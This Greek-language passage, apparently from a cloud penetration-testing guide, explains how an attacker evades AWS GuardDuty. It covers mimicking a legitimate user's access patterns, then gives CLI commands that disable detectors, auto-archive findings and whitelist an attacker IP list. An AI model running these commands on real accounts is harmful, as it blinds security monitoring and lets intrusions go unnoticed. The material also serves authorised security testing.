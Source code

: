 Με αυτές τις πληροφορίες, αναπαράγετε όσο το δυνατόν περισσότερο τον ίδιο σενάριο για να χρησιμοποιήσετε την πρόσβαση:

* Αν είναι **χρήστης ή ρόλος προσβάσιμος από έναν χρήστη**, προσπαθήστε να το χρησιμοποιήσετε τις ίδιες ώρες, από την ίδια γεωγραφική τοποθεσία (ακόμα και τον ίδιο ISP και IP αν είναι δυνατόν)
* Αν είναι **ρόλος που χρησιμοποιείται από μια υπηρεσία**, δημιουργήστε την ίδια υπηρεσία στην ίδια περιοχή και χρησιμοποιήστε την από εκεί στα ίδια χρονικά διαστήματα
* Πάντα προσπαθήστε να χρησιμοποιήσετε τα **ίδια δικαιώματα** που έχει χρησιμοποιήσει αυτό το υποκείμενο
* Αν χρειάζεται να **χρησιμοποιήσετε άλλα δικαιώματα ή να καταχραστείτε ένα δικαίωμα** (για παράδειγμα, να κατεβάσετε 1.000.000 αρχεία καταγραφής cloudtrail) κάντε το **αργά** και με το **ελάχιστο ποσό αλληλεπίδρασης** με το AWS (το awscli κάποιες φορές καλεί αρκετές read APIs πριν το write) 

### Κατάρριψη του GuardDuty

#### `guardduty:UpdateDetector`

Με αυτό το δικαίωμα μπορείτε να απενεργοποιήσετε το GuardDuty για να αποφύγετε την ενεργοποίηση ειδοποιήσεων. 

{% code overflow="wrap" %}
```bash
aws guardduty update-detector --detector-id <detector-id> --no-enable
aws guardduty update-detector --detector-id <detector-id> --data-sources S3Logs={Enable=false}
```
{% endcode %}

#### `guardduty:CreateFilter`

Οι επιτιθέμενοι με αυτήν την άδεια έχουν τη δυνατότητα να **χρησιμοποιούν φίλτρα για την αυτόματη** αρχειοθέτηση ευρημάτων: 

{% code overflow="wrap" %}
```bash
aws guardduty create-filter  --detector-id <detector-id> --name <filter-name> --finding-criteria file:///tmp/criteria.json --action ARCHIVE
```
{% endcode %}

#### `iam:PutRolePolicy`, (`guardduty:CreateIPSet`|`guardduty:UpdateIPSet`)

Οι επιτιθέμενοι με τα προηγούμενα προνόμια θα μπορούσαν να τροποποιήσουν τη [**Λίστα Εμπιστευμένων IP**](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty\_upload-lists.html) του GuardDuty προσθέτοντας τη διεύθυνση IP τους και αποφεύγοντας τη δημιουργία ειδοποιήσεων.

{% code overflow="wrap" %}
```bash
aws guardduty update-ip-set --detector-id <detector-id> --activate --ip-set-id <ip-set-id> --location https://some-bucket.s3-eu-west-1.amazonaws.com/attacker.csv
```
{% endcode %}

#### `guardduty:DeletePublishingDestination`

Οι επιτιθέμενοι θα μπορούσαν να αφαιρέσουν τον προορισμό για να αποτρέψουν την ειδοποίηση:
